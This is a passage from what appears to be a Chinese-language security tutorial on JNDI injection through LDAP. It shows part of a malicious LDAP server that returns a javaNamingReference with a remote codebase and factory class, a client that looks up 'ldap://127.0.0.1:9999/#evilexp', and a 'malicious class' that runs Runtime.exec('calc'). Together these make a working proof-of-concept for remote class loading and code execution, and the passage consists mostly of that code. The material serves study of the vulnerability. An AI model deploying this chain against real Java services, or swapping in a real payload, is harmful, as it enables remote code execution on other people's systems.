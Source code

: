 ```plain
                cbstring = cbstring.substring(0, refPos);
            }
            e.addAttribute("javaCodeBase", cbstring);
            e.addAttribute("objectClass", "javaNamingReference"); //$NON-NLS-1$
            e.addAttribute("javaFactory", this.codebase.getRef());
            result.sendSearchEntry(e);
            result.setResult(new LDAPResult(0, ResultCode.SUCCESS));
        }

        public void processSearchResult(InMemoryInterceptedSearchResult result) {
            String base = result.getRequest().getBaseDN();
            Entry e = new Entry(base);
            try{
                sendResult(result,base,e);
            }
            catch (Exception e1){
                e1.printStackTrace();
            }
        }
    }
}
```

LDAP\_Client

```plain
package JNDI;

import javax.naming.InitialContext;

public class LDAP_Client {
    public static void main(String[] args) throws Exception{
        String string = "ldap://127.0.0.1:9999/#evilexp";
        InitialContext initialContext = new InitialContext();
        initialContext.lookup(string);
    }
}
```

恶意类 evilexp

```plain
public class evil {
    public evil() throws Exception{
        Runtime.getRuntime().exec("calc");
    }
}
```

​  
[![](assets/1699929746-25cb4ebeb8aa677cc283d99c1e1c6c8f.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231110002231-2ef8fa84-7f1c-1.png)  
​
